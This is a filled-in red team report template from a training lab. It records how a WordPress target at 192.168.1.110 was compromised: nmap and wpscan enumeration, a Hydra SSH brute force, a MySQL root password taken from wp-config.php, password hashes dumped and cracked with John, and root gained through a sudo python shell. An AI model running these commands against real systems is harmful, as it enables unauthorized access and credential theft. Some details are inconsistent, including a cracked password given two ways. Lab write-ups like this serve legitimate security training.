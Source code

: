 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
  
```
![npmap_scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - List of
  - Exposed Services
  22/tcp open ssh
  80/tcp open http
  111/tcp open rpcbind
  139/tcp netbios-ssn
  445/tcp netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities
  1. Wordpress User Enumeration
  2. Weak User Password
  3. Directory Exploration (mysql database password discovered)
  4. Unsalted User Password Hash (JohnTheRipper)

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` hash value_
  **Flag1: b9bbcb33ellb80be759c4e844862482d**
  ![flag1](images/flag1.png)
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      WPSCAN Enumeration / HydraBruteForce
      - _TODO: Include the command run_
        - `$ wpscan --url http://192.168.1.110 --enumerate u`
        ![wpscan_users](images/wpscan_users.png)
          -`hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh`
          ![hydra_michael](images/hydra_michael.png)
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www/html`
        - `ls -l`
        - `nano service.html`

  - `flag2.txt`: _TODO: Insert `flag2.txt` hash value_
  **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      Directory Exploration
      - _TODO: Include the command run_
      - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../../var/www`
        - `ls`
        - `cat flag2.txt`
        ![flag2](images/flag2.png)
  

  - `flag3.txt`: _TODO: Insert `flag3.txt` hash value_  
  **Flag3: afc01ab56b50591e7dccf93122770cd2**
  ![flag3](images/flag3.png)
      - _TODO: Identify the exploit used_
      Directory Exploration -> Database Access -> Database Exploration
      - _TODO: Include the command run_
            - found the wp-config.php file containing the database password
            - `mysql --host=localhost --user=root --password=R@v3nSecurity` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

  - `flag4.txt`: _TODO: Insert `flag4.txt` hash value_
  **Flag4: 715dea6c055b9fe3337544932f2941ce**
  ![flag4](images/flag4.png)
      - _TODO: Identify the exploit used_
      JohnTheRipper / sudo privilege abuse
      - _TODO: Include the command run_
        - `select * from wp_users INTO OUTFILE '/home/michael/wp_hashes.txt';`
        - `exit`
          - `cp wp_hashes.txt wp_hashes_cp.txt` to change file ownership from root to michael
          - `chmod 666 wp_hashes_cp.txt`
          - exit ssh to kali machine
          - `scp -P 22 michael@192.168.1.110:/home/michael/wp_hashes_cp.txt /root`
          - `john wp_hashes_cp.txt`
          - cracked - username: steven -> password: pink4 
        - `ssh steven@192.168.1.110`
        - `pw:pink84`
        - `sudo -l`
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
        - now have root access
        - `cd /root`
        - `ls`
        - `cat flag4.txt`